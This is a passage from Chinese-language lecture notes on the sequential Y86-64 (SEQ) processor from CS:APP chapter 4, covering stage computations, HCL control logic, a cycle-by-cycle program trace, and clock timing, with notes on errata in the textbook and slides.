| 6 | jg | cmovg | ~(SF ^ OF) & ~ZF |
（5）call 与 ret（课件 p.12–13、p.24–25；教材图 4.21）#
表 7 调用与返回指令的阶段计算
| 阶段 | call Dest | ret |
|---|---|---|
| 取指 | icode:ifun ← M1[PC] valC ← M8[PC+1] valP ← PC+9 | icode:ifun ← M1[PC] valP ← PC+1 |
| 译码 | valB ← R[%rsp] | valA ← R[%rsp] valB ← R[%rsp] |
| 执行 | valE ← valB + (−8) | valE ← valB + 8 |
| 访存 | M8[valE] ← valP | valM ← M8[valA] |
| 写回 | R[%rsp] ← valE | R[%rsp] ← valE |
| 更新 PC | PC ← valC | PC ← valM |
call 就是“压入 valP 的 pushq”加上“跳到 valC 的 jmp”：栈指针的处理与 pushq 完全相同（减 8、写到新栈顶、写回 %rsp），只是写入内存的数据从 valA 换成了返回地址 valP，新 PC 取 valC。ret 就是“弹出到 PC 的 popq”：译码、执行、访存与 popq 完全相同，只是读出的 valM 不写回寄存器，而是作为新的 PC。课件 p.12、p.24 分别用文字描述了 call（读 9 字节、PC 加 9 得返回点；读栈指针；减 8；把返回点写到新栈顶；更新栈指针；PC 设为 Dest）和 ret（读 1 字节；读栈指针；加 8；从旧栈顶读返回地址；更新栈指针；PC 设为返回地址）。
（6）一个完整的例子：教材图 4.17 的程序#
教材用图 4.17 的小程序串起所有类型的指令（练习题 4.13、4.14、4.18 分别追踪其中的 irmovq、popq 和 call）。表 8是本讲义的 SEQ 模拟器逐周期给出的各阶段的值（初始时所有寄存器为 0，CC = 100，即 ZF = 1）。读这张表时请对照前面五张阶段计算表，逐格核对每个值是怎样来的。
0x000: 30f20900000000000000 | irmovq $9, %rdx
0x00a: 30f31500000000000000 | irmovq $21, %rbx
0x014: 6123 | subq %rdx, %rbx # subtract
0x016: 30f48000000000000000 | irmovq $128,%rsp # Problem 4.13
0x020: 40436400000000000000 | rmmovq %rsp, 100(%rbx) # store
0x02a: a02f | pushq %rdx # push
0x02c: b00f | popq %rax # Problem 4.14
0x02e: 734000000000000000 | je done # Not taken
0x037: 804100000000000000 | call proc # Problem 4.18
0x040: | done:
0x040: 00 | halt
0x041: | proc:
0x041: 90 | ret # Return表 8 图 4.17 程序在 SEQ 上逐周期的各阶段值（模拟器生成）
| 周期 | PC | 指令 | 取指 | 译码 | 执行 | 访存 | 写回 | 新 PC |
|---|---|---|---|---|---|---|---|---|
| 1 | 0x0 | irmovq $9, %rdx | valC=0x9 valP=0xa | — | valE=0x9 | — | %rdx←0x9 | 0xa |
| 2 | 0xa | irmovq $21, %rbx | valC=0x15 valP=0x14 | — | valE=0x15 | — | %rbx←0x15 | 0x14 |
| 3 | 0x14 | subq %rdx, %rbx | valP=0x16 | valA=0x9 valB=0x15 | valE=0xc CC←000 | — | %rbx←0xc | 0x16 |
| 4 | 0x16 | irmovq $128, %rsp | valC=0x80 valP=0x20 | — | valE=0x80 | — | %rsp←0x80 | 0x20 |
| 5 | 0x20 | rmmovq %rsp, 100(%rbx) | valC=0x64 valP=0x2a | valA=0x80 valB=0xc | valE=0x70 | M[0x70] ←0x80 | — | 0x2a |
| 6 | 0x2a | pushq %rdx | valP=0x2c | valA=0x9 valB=0x80 | valE=0x78 | M[0x78] ←0x9 | %rsp←0x78 | 0x2c |
| 7 | 0x2c | popq %rax | valP=0x2e | valA=0x78 valB=0x78 | valE=0x80 | valM=0x9 | %rsp←0x80 %rax←0x9 | 0x2e |
| 8 | 0x2e | je done | valC=0x40 valP=0x37 | — | Cnd=0 | — | — | 0x37 |
| 9 | 0x37 | call proc | valC=0x41 valP=0x40 | valB=0x80 | valE=0x78 | M[0x78] ←0x40 | %rsp←0x78 | 0x41 |
| 10 | 0x41 | ret | valP=0x42 | valA=0x78 valB=0x78 | valE=0x80 | valM=0x40 | %rsp←0x80 | 0x40 |
| 11 | 0x40 | halt | valP=0x41 | — | — | — | — | 停机 |
这张表里有几处值得留意：第 3 周期 subq 算出 21 − 9 = 12（0xc），结果非零非负，CC 由 100 变为 000；第 5 周期 rmmovq 的有效地址是 0xc + 100 = 0x70；第 6、7 周期 pushq 与 popq 之后 %rsp 回到 0x80，%rax 得到压入的 9；第 8 周期 je 的条件 ZF = 0 不成立，Cnd = 0，PC 取 valP = 0x37；第 9 周期 call 把返回地址 0x40 压栈并跳到 0x41；第 10 周期 ret 从 0x78 读出 0x40 作为新 PC；第 11 周期 halt 使 Stat = HLT，处理器停止。这些数值与教材练习题 4.13、4.14、4.18 的答案逐一相同。
10.4 统一的计算框架与各信号的含义（课件 p.6、p.16–18）#
把上面的表放在一起看，所有指令遵循同一个模式（课件 p.6：“All instructions follow this pattern!”），区别只在于每一步具体算什么、有些步骤是否为空：取指读指令字节、[读寄存器字节]、[读常数字]、算 valP；译码[读操作数 A]、[读操作数 B]；执行做一次 ALU 运算、[设置或使用条件码]；访存[读或写一个字]；写回[写 ALU 结果]、[写内存结果]；最后更新 PC。方括号表示某些指令没有这一步。课件 p.16、p.18 把 OPq 和 call 的阶段计算表贴在硬件图旁边对照（p.17 是 rmmovq）：call 没有寄存器字节、不读操作数 A、不设置条件码、不写回内存结果，其余各步都有。表 9汇总了这些“计算出的值”（2025 版课件 p.28 有同样的一览，2026 版删去了这一页）。
表 9 SEQ 各阶段计算出的值（2025 版课件 p.28）
| 阶段 | 信号 | 英文 | 含义 |
|---|---|---|---|
| 取指 | icode, ifun | Instruction code / function | 指令代码与功能码（第 0 字节） |
rA, rB | Instr. register A / B | 寄存器字节的两个字段，无此字节时为 0xF | |
valC | Instruction constant | 指令中的 8 字节常数（V、D 或 Dest） | |
valP | Incremented PC | PC + 本条指令的长度 | |
| 译码 | srcA, srcB | Register ID A / B | 要读的两个寄存器的编号（0xF 表示不读） |
dstE, dstM | Destination register E / M | 写回时 valE、valM 要写入的寄存器编号（0xF 表示不写） | |
valA, valB | Register value A / B | 从寄存器文件 A、B 两个读端口读出的值 | |
| 执行 | valE | ALU result | ALU 的输出 |
Cnd | Branch/move flag | 条件成立与否，供 cmovXX 和 jXX 使用 | |
| 访存 | valM | Value from memory | 从数据存储器读出的值 |
有了这套统一的信号，硬件就可以按“信号”而不是按“指令”来组织：每个阶段只有一套部件，控制逻辑根据 icode 决定这些部件的输入从哪里取、要不要动作。例如 ALU 的 A 输入可能是 valA（OPq、rrmovq）、valC（irmovq、rmmovq、mrmovq）、−8（pushq、call）或 +8（popq、ret），这正是 10.8 节 aluA 的 HCL 的四行。
常见问题：为什么译码阶段要提前算出 dstE、dstM，而写回在很后面？
写回端口的地址 dstE、dstM 只依赖 icode、rA、rB（以及执行阶段的 Cnd），在取指之后就能算出来，所以教材把它们和 srcA、srcB 一起放在“译码”这一行的硬件里（图 5的四个灰色块）。这并不矛盾：在 SEQ 中所有组合逻辑在同一个周期里一起算，“阶段”只是为了描述方便的逻辑划分；真正的写入发生在周期结束时的时钟上升沿。到了第 11 讲的流水线，dstE、dstM 会作为流水线寄存器的字段随指令一起往后传，到写回阶段再使用。
10.5 SEQ 的硬件结构（课件 p.15、p.30；教材图 4.23）#
图 3是 SEQ 的完整硬件框图，课件 p.15、p.30 和教材图 4.23 给出的是同一张图，本讲义按原图重画，并在左侧标出了阶段。图中有三类元素（课件 p.15、p.30 的图例）：蓝色方框是预先设计好的硬件单元，如指令存储器、PC 增加器、寄存器文件、ALU、条件码寄存器和数据存储器，我们把它们当作“黑盒”使用；灰色圆角框是控制逻辑，要用 HCL 描述，它们根据 icode 等信号从若干个输入中选择一个，或者产生 1 位的控制信号；白色椭圆只是信号的名字，不是部件。线的粗细表示信号的宽度：粗线是 64 位的字（如 valA、valE），细线是 4～8 位的值（如寄存器编号 rA、icode），虚线是 1 位的信号（如 Cnd、need_regids）。
图 3 SEQ 的硬件结构（按课件 p.15、p.30 / 教材图 4.23 重画；为清楚起见，icode、ifun 送往各灰色控制块的连线未画出）
沿着信号流向把图读一遍。最底下的 PC 寄存器送出当前 PC。首先是取指阶段，指令存储器从 PC 开始读出 10 个字节，产生 icode、ifun、rA、rB、valC；PC 增加器算出 valP。接着进入译码阶段，四个灰色块 srcA、srcB、dstE、dstM 由 icode、rA、rB（dstE 还要用 Cnd）算出寄存器编号；寄存器文件按 srcA、srcB 从 A、B 两个读端口送出 valA、valB。执行阶段中，ALU A、ALU B 两个控制块为 ALU 选择输入，ALU fun 选择运算；ALU 输出 valE，并把结果的标志送给条件码 CC（是否装入由 Set CC 决定）；cond 根据 CC 和 ifun 产生 Cnd。访存阶段由 Addr 块从 valE、valA 中选地址，Data 块从 valA、valP 中选要写的数据，Mem. control 决定读还是写；读出的值是 valM；stat 块综合 imem_error、instr_valid、dmem_error 和 icode 产生状态 Stat。写回时，valE 和 valM 分别连到寄存器文件的 E、M 写端口（图右侧两条长线）。最后更新 PC，New PC 块从 valC、valM、valP 中选出 newPC，沿最右侧的长线送回 PC，在下一个时钟上升沿写入。
整张图里只有四个部件会在时钟沿改变状态：PC、CC、寄存器文件和数据存储器，其余全是组合逻辑。这四个部件在一个周期里各被写入至多一次（寄存器文件至多写两个端口），这是 SEQ 能用“一个周期一条指令”实现的基础，10.12 节会详细讨论。
2026 版课件在这张图之后（p.16–18）把 OPq、rmmovq、call 三条指令的阶段计算表分别贴在硬件图旁，并用红线标出各自实际用到的数据通路。可以对照图 3 自己走一遍：OPq 从寄存器文件读出 valA、valB，送进 ALU，结果 valE 经 E 口写回 rB，不经过数据存储器；rmmovq 用 ALU 把 valB 与 valC 相加得到地址，valA 作为写入数据送进数据存储器，不写回寄存器；call 用 ALU 把 %rsp 减 8，把 valP 写到新栈顶，新的 %rsp 经 E 口写回，新 PC 取 valC。
10.6 取指阶段（课件 p.31–34；教材图 4.27）#
图 4 取指阶段的逻辑（课件 p.31–32；教材图 4.27）
取指阶段的硬件如图 4所示。预先设计好的部件有四个（课件 p.31）：PC 寄存器；指令存储器，一次读出 PC～PC+9 共 10 个字节，地址越界时发出 imem_error 信号；Split，把第 0 字节拆成 icode 和 ifun 两个 4 位值；Align，从第 1～9 字节中取出 rA、rB 和 valC。控制逻辑有四块（课件 p.32）：icode 与 ifun，在地址无效时产生一条 nop；Instr valid，判断指令是否合法；Need regids，判断有没有寄存器字节；Need valC，判断有没有常数字。
# Determine instruction code
word icode = [
imem_error : INOP;
1 : imem_icode;
];
# Determine instruction function
word ifun = [
imem_error : FNONE;
1 : imem_ifun;
];
bool instr_valid = icode in
{ INOP, IHALT, IRRMOVQ, IIRMOVQ, IRMMOVQ, IMRMOVQ,
IOPQ, IJXX, ICALL, IRET, IPUSHQ, IPOPQ };
# Does fetched instruction require a regid byte?
bool need_regids =
icode in { IRRMOVQ, IOPQ, IPUSHQ, IPOPQ,
IIRMOVQ, IRMMOVQ, IMRMOVQ };
# Does fetched instruction require a constant word?
bool need_valC =
icode in { IIRMOVQ, IRMMOVQ, IMRMOVQ, IJXX, ICALL };imem_icode、imem_ifun 是 Split 直接从内存字节拆出的值。地址无效时，icode 被强制为 INOP（1）、ifun 为 FNONE（0），这样这条“指令”在后续各阶段不会改动任何状态；真正的出错信息由 imem_error 带到访存阶段，在那里把 Stat 设为 SADR（10.9 节）。instr_valid 列出全部 12 个合法的指令代码，icode 为 0xC～0xF 时它为 0，最后 Stat 为 SINS。
need_regids 和 need_valC 可以直接从图 1读出：有寄存器字节的是 rrmovq/cmovXX、irmovq、rmmovq、mrmovq、OPq、pushq、popq；有常数字的是 irmovq、rmmovq、mrmovq、jXX、call。它们决定了 Align 怎样取字段和 PC 增加器加多少（表 10）：need_regids = 1 时 rA:rB 取第 1 字节，valC 取第 2～9 字节；need_regids = 0 时 rA、rB 都置为 0xF，valC 取第 1～8 字节。PC 增加器对 PC 值 p 计算 valP = p + 1 + r + 8i，其中 r = need_regids，i = need_valC。
表 10 need_regids、need_valC 与指令长度（valP − PC）
| 指令 | need_regids | need_valC | 长度 1 + r + 8i |
|---|---|---|---|
| halt、nop、ret | 0 | 0 | 1 |
| rrmovq/cmovXX、OPq、pushq、popq | 1 | 0 | 2 |
| jXX、call | 0 | 1 | 9 |
| irmovq、rmmovq、mrmovq | 1 | 1 | 10 |
⚠ 教材图 4.26 常数表的几处笔误
英文版教材图 4.26 把 OPq 的指令代码写成 IOPL、把 %rsp 的编号写成 RESP，而正文和 seq-full.hcl 的代码中用的是 IOPQ、RRSP（第二版留下的旧名字）。
图 4.26 给出的状态码数值是 SAOK = 1、SADR = 2、SINS = 3、SHLT = 4，与图 4.5（AOK 1、HLT 2、ADR 3、INS 4，也是 yis/ssim 实际采用的值）不一致。做题时只用名字，不必关心具体数值。
10.7 译码与写回阶段（课件 p.35–37；教材图 4.28）#
图 5 译码与写回阶段的逻辑（课件 p.35；教材图 4.28）
译码和写回都要访问寄存器文件，所以合在一起实现（图 5）。寄存器文件有四个端口：两个读端口 A、B，两个写端口 E、M；每个端口有一个地址输入（寄存器编号）和一个 64 位的数据线。地址为 0xF（RNONE）表示不访问。四个控制块分别产生读地址 srcA、srcB 和写地址 dstE、dstM，输入是 icode、rA、rB，dstE 还要用执行阶段算出的 Cnd 来实现条件传送（课件 p.35：“Cnd: Indicate whether or not to perform conditional move. Computed in Execute stage”）。
word srcA = [
icode in { IRRMOVQ, IRMMOVQ, IOPQ, IPUSHQ } : rA;
icode in { IPOPQ, IRET } : RRSP;
1 : RNONE; # Don't need register
];
word srcB = [
icode in { IOPQ, IRMMOVQ, IMRMOVQ } : rB;
icode in { IPUSHQ, IPOPQ, ICALL, IRET } : RRSP;
1 : RNONE; # Don't need register
];
word dstE = [
icode in { IRRMOVQ } && Cnd : rB;
icode in { IIRMOVQ, IOPQ } : rB;
icode in { IPUSHQ, IPOPQ, ICALL, IRET } : RRSP;
1 : RNONE; # Don't write any register
];
word dstM = [
icode in { IMRMOVQ, IPOPQ } : rA;
1 : RNONE; # Don't write any register
];每段 HCL 都是把阶段计算表的某一行“竖着读”出来的。srcA 对应译码阶段的第一步 valA ← …：读 R[rA] 的有 rrmovq/cmovXX、rmmovq、OPq、pushq，读 R[%rsp] 的有 popq、ret，其余（irmovq、mrmovq、jXX、call、halt、nop）不读。srcB 对应第二步 valB ← …：读 R[rB] 的有 OPq、rmmovq、mrmovq，读 R[%rsp] 的有 pushq、popq、call、ret。dstE 对应写回的 R[…] ← valE：OPq、irmovq 和条件成立的 rrmovq/cmovXX 写 rB，四条栈指令写 %rsp。dstM 对应 R[…] ← valM：只有 mrmovq 和 popq，都写 rA。
dstE 的第一行是条件传送的全部实现：rrmovq 的 ifun = 0，条件恒为真，Cnd = 1，总是写 rB；cmovXX 条件不成立时 Cnd = 0，这一行不匹配，第二、三行也不匹配（icode 是 IRRMOVQ），落到默认的 RNONE，于是不写任何寄存器。教材在练习题 4.24 之前先给出了一个不含 && Cnd 的版本，并注明“条件传送没有正确实现”，练习题 4.24 的答案才是课件 p.37 的这一版。
★ 寄存器文件两个写端口的优先级
只有 popq 会同时使用两个写端口。对 popq %rsp，dstE 与 dstM 都是 %rsp，但写入的数据不同（E 口为旧值 + 8，M 口为读出的值）。为了实现“%rsp 最终等于读出的值”这一约定，硬件让 M 口的写入优先于 E 口（教材练习题 4.22）。
10.8 执行阶段（课件 p.38–40；教材图 4.29）#
图 6 执行阶段的逻辑（课件 p.38；教材图 4.29）
执行阶段的部件（图 6，课件 p.38）有三个：ALU 实现加、减、与、异或四种运算，并根据结果产生零、负、溢出三个标志；CC 是存放三个条件码位的寄存器；cond 根据 CC 和 ifun 算出条件传送或条件跳转的标志 Cnd（表 6）。控制逻辑有四块：Set CC 决定条件码寄存器是否装入，ALU A、ALU B 选择 ALU 的两个输入，ALU fun 选择运算。
word aluA = [
icode in { IRRMOVQ, IOPQ } : valA;
icode in { IIRMOVQ, IRMMOVQ, IMRMOVQ } : valC;
icode in { ICALL, IPUSHQ } : -8;
icode in { IRET, IPOPQ } : 8;
# Other instructions don't need ALU
];
word aluB = [
icode in { IRMMOVQ, IMRMOVQ, IOPQ, ICALL,
IPUSHQ, IRET, IPOPQ } : valB;
icode in { IRRMOVQ, IIRMOVQ } : 0;
# Other instructions don't need ALU
];
word alufun = [
icode == IOPQ : ifun;
1 : ALUADD;
];
bool set_cc = icode in { IOPQ };阶段计算表中 ALU 的运算都写成“valE ← aluB OP aluA”，aluB 在前、aluA 在后，这样 subq 算的才是 valB − valA。aluA 有四种来源：valA（OPq、rrmovq）、valC（irmovq、rmmovq、mrmovq）、−8（pushq、call）和 +8（popq、ret）；aluB 只有两种：valB（需要寄存器 B 参与的指令）或常数 0（rrmovq/cmovXX、irmovq 只是让 aluA 穿过 ALU）。ALU 大多数时候只当加法器用，只有 OPq 才按 ifun 选择运算，所以 alufun 只有两行。条件码只应在 OPq 时更新，set_cc 只对 IOPQ 为 1：例如 rmmovq 也让 ALU 做了一次加法，但这个加法的标志不能破坏条件码。
⚠ 课件 p.40 的残留写法
课件 p.40（ALU Operation）右侧的指令表把 rmmovq、OPq 写成了“rmmovl rA, D(rB)”“OPl rA, rB”，是 32 位 Y86 的旧名字，应为 rmmovq、OPq（同一张表在 p.39 是正确的）。
cond 部件对每条指令都会算出一个 Cnd，但只有 cmovXX（通过 dstE）和 jXX（通过 new_pc）真正使用它，对其他指令 Cnd 的值被忽略。注意 Cnd 是用本条指令开始时的条件码算的：如果本条指令是 OPq，它新算出的条件码要到周期结束的上升沿才写入 CC，不会影响本周期的 Cnd；而 OPq 本身也不使用 Cnd。
10.9 访存阶段（课件 p.41–43；教材图 4.30）#
图 7 访存阶段的逻辑（课件 p.41；教材图 4.30）
访存阶段（图 7）的核心是数据存储器，它读或写一个 8 字节的字，地址越界时发出 dmem_error。控制逻辑有五块（课件 p.41）：stat 产生指令的状态；Mem. read 决定是否读；Mem. write 决定是否写；Mem. addr 选择地址；Mem. data 选择要写入的数据。
word mem_addr = [
icode in { IRMMOVQ, IPUSHQ, ICALL, IMRMOVQ } : valE;
icode in { IPOPQ, IRET } : valA;
# Other instructions don't need address
];
word mem_data = [
# Value from register
icode in { IRMMOVQ, IPUSHQ } : valA;
# Return PC
icode == ICALL : valP;
# Default: Don't write anything
];
bool mem_read = icode in { IMRMOVQ, IPOPQ, IRET };
bool mem_write = icode in { IRMMOVQ, IPUSHQ, ICALL };
## Determine instruction status
word Stat = [
imem_error || dmem_error : SADR;
!instr_valid : SINS;
icode == IHALT : SHLT;
1 : SAOK;
];课件 p.42–43 把各指令访存阶段的操作排在一起：OPq、jXX 没有访存；rmmovq 写 M8[valE] ← valA；popq 读 valM ← M8[valA]；call 写 M8[valE] ← valP；ret 读 valM ← M8[valA]（未列出的 mrmovq 读 M8[valE]，pushq 写 M8[valE] ← valA）。由此可见地址只有 valE 和 valA 两种来源，写入的数据只有 valA 和 valP 两种来源，于是 mem_addr、mem_data 各只需一个二选一。读和写互斥：mem_read 对应三条读内存的指令，mem_write 对应三条写内存的指令。
Stat 综合了来自三个地方的信息：取指阶段的 imem_error 和 instr_valid、访存阶段的 dmem_error，以及 icode。地址错误的优先级最高，其次是非法指令，再次是 halt。Stat 放在访存阶段计算，是因为 dmem_error 要到这里才知道。只要 Stat 不是 SAOK，处理器就停止，这条指令不改变任何状态（在第 11 讲的流水线中，异常的处理会复杂得多）。
10.10 更新 PC 阶段（课件 p.44–45；教材图 4.31）#
图 8 更新 PC 阶段的逻辑（课件 p.44；教材图 4.31）
word new_pc = [
# Call. Use instruction constant
icode == ICALL : valC;
# Taken branch. Use instruction constant
icode == IJXX && Cnd : valC;
# Completion of RET instruction. Use value from stack
icode == IRET : valM;
# Default: Use incremented PC
1 : valP;
];新 PC 只有三种来源（图 8）：call 和条件成立的 jXX 取指令中的常数 valC；ret 取从栈中读出的 valM；其余所有指令（包括条件不成立的 jXX）取顺序下一条的地址 valP。课件 p.45 把各指令的更新 PC 一行列在一起：OPq、rmmovq、popq 都是 PC ← valP，jXX 是 PC ← Cnd ? valC : valP，call 是 PC ← valC，ret 是 PC ← valM。
10.11 控制信号总表#
把 10.6–10.10 节的 HCL 按指令横着读，就得到表 11：每一行是一条指令在 SEQ 中的全部控制信号。复习时可以反过来练习：遮住表格，对每条指令写出它的阶段计算表，再从表中读出这些信号。表中 F 表示 RNONE；“—”表示该信号的值不被使用；halt 的 new_pc 虽然算出 valP，但处理器已停止，PC 不再更新。
表 11 SEQ 控制信号总表（按 seq-full.hcl 逐项填写，并用模拟器逐条核对）
| 指令 | srcA | srcB | dstE | dstM | aluA | aluB | alufun | set_cc | 访存 | new_pc |
|---|---|---|---|---|---|---|---|---|---|---|
| halt | F | F | F | F | — | — | ADD | 0 | — | valP |
| nop | F | F | F | F | — | — | ADD | 0 | — | valP |
| rrmovq / cmovXX | rA | F | Cnd ? rB : F | F | valA | 0 | ADD | 0 | — | valP |
| irmovq | F | F | rB | F | valC | 0 | ADD | 0 | — | valP |
| rmmovq | rA | rB | F | F | valC | valB | ADD | 0 | 写 [valE] ← valA | valP |
| mrmovq | F | rB | F | rA | valC | valB | ADD | 0 | 读 [valE] | valP |
| OPq | rA | rB | rB | F | valA | valB | ifun | 1 | — | valP |
| jXX | F | F | F | F | — | — | ADD | 0 | — | Cnd ? valC : valP |
| call | F | %rsp | %rsp | F | −8 | valB | ADD | 0 | 写 [valE] ← valP | valC |
| ret | %rsp | %rsp | %rsp | F | +8 | valB | ADD | 0 | 读 [valA] | valM |
| pushq | rA | %rsp | %rsp | F | −8 | valB | ADD | 0 | 写 [valE] ← valA | valP |
| popq | %rsp | %rsp | %rsp | rA | +8 | valB | ADD | 0 | 读 [valA] | valP |
10.12 SEQ 的时序：一个周期执行一条指令（课件 p.46–53；教材 4.3.3 节）#
2026 版在这一部分开头先用两页（p.47–48）回顾了逻辑门的延迟和寄存器只在时钟上升沿装入新值（第 9 讲 9.8、9.12 节）。SEQ 的硬件分成两部分（课件 p.49）。一部分是状态：PC 寄存器、条件码寄存器、数据存储器和寄存器文件，都在时钟上升沿更新。另一部分是组合逻辑：ALU、所有控制逻辑，以及存储器的读操作（指令存储器、寄存器文件、数据存储器的读都按组合逻辑处理）。指令存储器只用来读，可以完全看作组合逻辑。
于是一个周期内发生的事情是：上升沿到来，状态部件装入上一条指令算好的新值；组合逻辑立刻开始对新状态作出反应，信号从 PC 出发，依次经过取指、译码、执行、访存的组合逻辑传播；在下一个上升沿到来之前，所有信号都已稳定，newPC、新的条件码、要写的寄存器和内存值都已出现在各状态部件的输入端；下一个上升沿把它们一次全部写入，同时开始下一条指令。所以 SEQ 每个周期恰好执行一条指令，“六个阶段”在硬件上是在一个周期内一起完成的。
要让这种方式正确，教材提出了一条原则（4.3.3 节）：从不回读（No reading back）。处理器在执行一条指令时，不需要读回本条指令更新过的状态。例如 pushq 要先把 %rsp 减 8，再用减过的值作为写地址；如果真的先写 %rsp 再读回来，就需要两个周期。SEQ 的做法是让 ALU 算出新的栈指针 valE，同时把 valE 送到数据存储器作为地址、送到寄存器文件 E 口作为写数据，二者都在周期结束时写入，谁也不用读谁。同理，OPq 设置的条件码不会被本条指令读到；条件跳转用的是之前指令设置的条件码。正因为如此，所有状态更新可以安排在同一个时钟沿同时发生。
0x000: 30f30001000000000000 | irmovq $0x100,%rbx # %rbx <-- 0x100
0x00a: 30f20002000000000000 | irmovq $0x200,%rdx # %rdx <-- 0x200
0x014: 6023 | addq %rdx,%rbx # %rbx <-- 0x300 CC <-- 000
0x016: 732900000000000000 | je dest # Not taken
0x01f: 40320000000000000000 | rmmovq %rbx,0(%rdx) # M[0x200] <-- 0x300
0x029: 00 | dest: halt课件 p.49–53 用上面这段程序演示了周期 3、4 前后的变化，图 9把课件的四个时刻画在了一起。设程序开始时条件码为 100（ZF = 1），前两个周期执行两条 irmovq。
图 9 SEQ 在周期 3（addq）、周期 4（je）中的四个时刻（课件 p.50–53；教材图 4.25）
周期 3 开始时（时刻 ①），上升沿刚把第二条 irmovq 的结果写入，状态为 PC = 0x014、CC = 100、%rbx = 0x100、%rdx = 0x200。组合逻辑开始对这些新值作出反应（课件 p.50：“combinational logic starting to react to state changes”）。
到周期 3 结束前（时刻 ②），组合逻辑已经算出 addq 的结果（课件 p.51）：valE = 0x200 + 0x100 = 0x300，新的条件码 000，newPC = 0x016。这些值都等在各状态部件的输入端，但状态本身仍是 ① 时的值。
周期 4 开始的上升沿（时刻 ③）到来，上升沿到来，PC ← 0x016、CC ← 000、%rbx ← 0x300 同时写入（课件 p.52：“state set according to addq instruction”），组合逻辑开始处理 je。
到周期 4 结束前（时刻 ④），组合逻辑已经算出 je 的结果（课件 p.53）：条件 ZF = 0 不成立，Cnd = 0，newPC = valP = 0x01f；je 不写寄存器、不写内存、不改条件码。下一个上升沿只把 PC 更新为 0x01f。
表 12 教材图 4.25 程序各周期结束时上升沿写入的内容（模拟器生成）
| 周期 | 周期开始时 PC | 周期开始时 CC | 周期结束的上升沿写入 |
|---|---|---|---|
| 1 | 0x0 | 100 | %rbx ← 0x100；PC ← 0xa |
| 2 | 0xa | 100 | %rdx ← 0x200；PC ← 0x14 |
| 3 | 0x14 | 100 | %rbx ← 0x300；CC ← 000；PC ← 0x16 |
| 4 | 0x16 | 000 | PC ← 0x1f |
| 5 | 0x1f | 000 | M[0x200] ← 0x300；PC ← 0x29 |
| 6 | 0x29 | 000 | Stat = HLT，停机 |
常见问题：既然状态在周期开始就变了，周期 4 的 je 用的条件码是谁设置的？
是 addq 设置的 000。addq 在周期 3 算出新的条件码，周期 3 结束的上升沿写入 CC；周期 4 开始后，je 的 cond 部件读到的已经是 000，ZF = 0，所以 je 不跳转。反过来，addq 自己在周期 3 中看到的是旧的条件码 100，但它不使用条件码，没有影响。这正是“从不回读”原则下状态更新的顺序：每条指令读到的都是之前所有指令的结果。
10.13 valA、valE 这些值保存在哪里？#
这是学 SEQ 时很自然的一个问题：阶段计算表里写着“valA ← R[rA]”，后面的阶段又“使用 valA”，看上去 valA 像一个变量，先被赋值、再被读取，那它总该存在某个地方。答案是：在 SEQ 中，valA、valB、valE、valM、valC、valP、icode、srcA、Cnd、newPC 等等都不保存在任何地方，它们只是导线上的信号，即组合逻辑某个输出端上的电压。整台 SEQ 中真正能“保存”东西的只有 10.5 节说的四个状态部件：PC、CC、寄存器文件、数据存储器（再加上只读的指令存储器）。
那么后面的阶段怎么能“用到”前面算出的 valA 呢？因为组合逻辑的输出持续地由它的输入决定。valA 是寄存器文件 A 口的输出，只要 srcA 不变、寄存器 rA 的内容不变，valA 这根线上的电压就一直保持着那个值。而 srcA 由 icode、rA 决定，它们又由 PC 和指令存储器的内容决定；PC 和寄存器文件在两个时钟上升沿之间都不会变。所以从“信号传播到这里、稳定下来”那一刻起，到下一个上升沿为止，valA 一直稳定地挂在导线上，ALU、Mem. addr 等使用它的部件随时都能“看到”它。换句话说，valA 并不是被“存”住的，而是因为它的源头（状态）被存住了，它才能被一遍遍地“重新算出来”并保持不变。
图 10 状态与信号的区别：教材图 4.25 程序第 3～5 周期中几个状态和信号的取值（模拟器生成；阴影长度只是示意）
图 10对比了两类东西。PC 和 %rbx 是状态，在上升沿那一刻跳变成新值，整个周期保持不变；valA、valE、newPC 是信号，每个上升沿之后都要从新的状态出发重新传播，经过一段不稳定的时间（阴影）才稳定为本条指令的值，到了下一个上升沿又被下一条指令的值取代。越靠后的信号（valE 在 ALU 之后，newPC 在数据存储器之后）稳定得越晚，SEQ 的时钟周期必须长到让最晚的信号也来得及稳定。周期 4 的 je 不使用 valA、valE，这两根线上仍然有某个值（例如读端口地址为 0xF 时的输出），只是没有任何部件理会它。
表 13 SEQ 中各种“值”的物理载体
| 名称 | 是什么 | 保持多久 | 时钟上升沿时 |
|---|---|---|---|
| PC、CC | 寄存器（触发器） | 一个周期 | 装入 newPC、新条件码 |
| 程序寄存器 %rax 等 | 寄存器文件中的存储单元 | 直到被写 | 写入 dstE、dstM 所指寄存器 |
| 内存中的数据 | 数据存储器的存储单元 | 直到被写 | mem_write = 1 时写入 |
| icode、rA、valC、valP | 指令存储器 + 取指组合逻辑的输出线 | 从稳定起到下一个上升沿 | 随新 PC 重新计算 |
| srcA、dstE、valA、valB | 译码控制块、寄存器文件读端口的输出线 | 同上 | 同上 |
| valE、Cnd、valM、newPC | ALU、cond、数据存储器、New PC 的输出线 | 同上（稳定得更晚） | 同上；其中 newPC、valE、valM 正好在此刻被状态部件“收下” |
这个问题的答案也揭示了 SEQ 与后续设计的根本区别。在 SEQ 中，一个周期只处理一条指令，信号不需要“活过”时钟沿，所以用导线就够了。到了第 11 讲的流水线，同一时刻有五条指令处在不同阶段，前一条指令的 valA 在它进入执行阶段时，下一条指令已经在译码阶段把 A 口读出了新值，旧的 valA 如果只在导线上就丢了。因此 PIPE 在阶段之间加入了流水线寄存器，把 valA 等信号作为字段（如 E_valA、M_valA）锁存下来，随指令一起往后传；教材中流水线寄存器字段的前缀 F_、D_、E_、M_、W_ 正是为此而设。另一类经典设计“多周期处理器”（一条指令分几个周期执行）也有同样的需要，它用若干个内部寄存器保存 ALU 结果、读出的操作数等中间值。
常见问题：寄存器文件读出的 valA 和寄存器 %rax 本身是什么关系？
%rax 是寄存器文件里的一个存储单元，是状态；valA 是 A 读端口的输出线，是 srcA 所指那个单元当前内容的“复本”。只要单元的内容和地址不变，输出就不变；上升沿写入新内容后，输出经过一段延迟跟着变化（第 9 讲寄存器文件的时序）。因此，把 valA 理解成“寄存器的一个读出窗口”比理解成“一个新变量”更准确。
10.14 为什么 SEQ 要这样设计：设计原理与反例#
回头看 SEQ 的整套流程，它的每一处安排都不是随意的。下面把散见于 10.2–10.12 节的设计决定归纳成六条原理，对每一条都说明“如果不这样做会怎样”。几个反例用模拟器做了实测：把对应的 HCL 改错，再运行同一段程序。
（1）统一的阶段框架：让所有指令共用一套硬件#
